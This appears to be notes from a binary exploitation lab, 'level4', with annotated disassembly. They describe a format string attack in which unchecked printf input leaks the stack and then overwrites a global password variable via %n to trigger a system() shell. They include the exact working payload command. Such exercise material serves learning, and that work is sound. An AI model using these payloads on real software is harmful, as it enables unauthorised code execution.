 - attack: format string exploitation
- binary behavior: fgets argument and send it to printf, if global argument = 16930116 run the shell
- targeted functions: n, p and main
- vulnerability in v: printf() without argument (Bugs section in printf man)
- defense: fget

Method:
- do stack leakage
- find in leakage the position of the argument (find repetition and compare with hex ASCII table)
- find the global variable (password)
- overwrite buffer with address of global variable 
- and pass 16930116 as its value
 
Info:
- positon of argument in stack - 12

- 0x8049810 - address global variable
- 10980408 - same in little-endian
- same in hex - \x10\x98\x04\x08
- the password - 0x1025544 or 16930116

- offset code structure: 16930112 = 16930116 (password) - 4 (buffer address)


Code:
objdump -d ./level4
(python -c 'print "0000" + " %p" * 15'; cat) | ./level4
./level4 <<< $(python -c 'print "\x10\x98\x04\x08" + "%16930112u" + "%12$n"')


Functions

080484a7 <main>:
 80484a7:       55                      push   %ebp
 80484a8:       89 e5                   mov    %esp,%ebp
 80484aa:       83 e4 f0                and    $0xfffffff0,%esp
 80484ad:       e8 a5 ff ff ff          call   8048457 <n> # move to n
 80484b2:       c9                      leave
 80484b3:       c3                      ret


08048457 <n>:
 8048457:       55                      push   %ebp
 8048458:       89 e5                   mov    %esp,%ebp
 804845a:       81 ec 18 02 00 00       sub    $0x218,%esp #536
 8048460:       a1 04 98 04 08          mov    0x8049804,%eax
 8048465:       89 44 24 08             mov    %eax,0x8(%esp)
 8048469:       c7 44 24 04 00 02 00    movl   $0x200,0x4(%esp)
 8048470:       00
 8048471:       8d 85 f8 fd ff ff       lea    -0x208(%ebp),%eax #520
 8048477:       89 04 24                mov    %eax,(%esp)
 804847a:       e8 d1 fe ff ff          call   8048350 <fgets@plt> # defence
 804847f:       8d 85 f8 fd ff ff       lea    -0x208(%ebp),%eax
 8048485:       89 04 24                mov    %eax,(%esp)
 8048488:       e8 b7 ff ff ff          call   8048444 <p> # calling p
 804848d:       a1 10 98 04 08          mov    0x8049810,%eax # global varibale
 8048492:       3d 44 55 02 01          cmp    $0x1025544,%eax # password
 8048497:       75 0c                   jne    80484a5 <n+0x4e> # call system if true
 8048499:       c7 04 24 90 85 04 08    movl   $0x8048590,(%esp)
 80484a0:       e8 bb fe ff ff          call   8048360 <system@plt> # exloit
 80484a5:       c9                      leave
 80484a6:       c3                      ret


 08048444 <p>:
 8048444:       55                      push   %ebp
 8048445:       89 e5                   mov    %esp,%ebp
 8048447:       83 ec 18                sub    $0x18,%esp
 804844a:       8b 45 08                mov    0x8(%ebp),%eax
 804844d:       89 04 24                mov    %eax,(%esp)
 8048450:       e8 eb fe ff ff          call   8048340 <printf@plt> # exploit
 8048455:       c9                      leave
 8048456:       c3                      ret